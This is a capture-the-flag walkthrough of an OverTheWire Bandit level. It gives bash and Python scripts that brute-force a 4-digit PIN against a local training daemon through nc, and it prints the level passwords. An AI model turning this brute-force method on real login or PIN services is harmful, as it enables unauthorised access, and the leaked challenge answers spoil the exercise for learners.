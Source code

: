Level Goal: "A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing."

I did a simple bash script to bruteforce first, but I found it painfully slow, and I could not find a way to speed it up at first. This was the initial script:

```bash
#!/bin/bash
PASS="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {0001..9999}; do
    RESPONSE=$(echo $PASS $i | nc localhost 30002)
    echo Checking $i
    if [[ $RESPONSE != *"Wrong"* ]]; then
      echo $RESPONSE
    fi
done
```

Then I tried to do Python, but it seems to disconnect on random timer, as I fiddled with time.sleep for a while and kept getting disconnected, regardless of how slow it was.

```python
import socket
import time

password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for i in range (0, 10000):
        num = "%04d" % (i)
        print num
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('localhost', 30002))
        s.sendall(password + " " + num)
        recv = s.recv(1024)
        if "I am the pincode checker for user bandit25." not in recv:
                print recv
        s.close()
        time.sleep(0.15)

print "Program finished executing."
```

After doing a bit of reading, I found that I could speed up the requests significantly by transmitting every possible combination to the server at once, rather than one request at a time. To do so, I made a file named `dictgen.sh` containing the following script:
```bash
#!/bin/bash
PASS='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
for i in {0001..9999}; do
	echo $PASS $i >> dict.txt
done
```

Now I just had to pass the dict.txt file to the server via nc like so `cat dict.txt | nc localhost 30002`.

Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
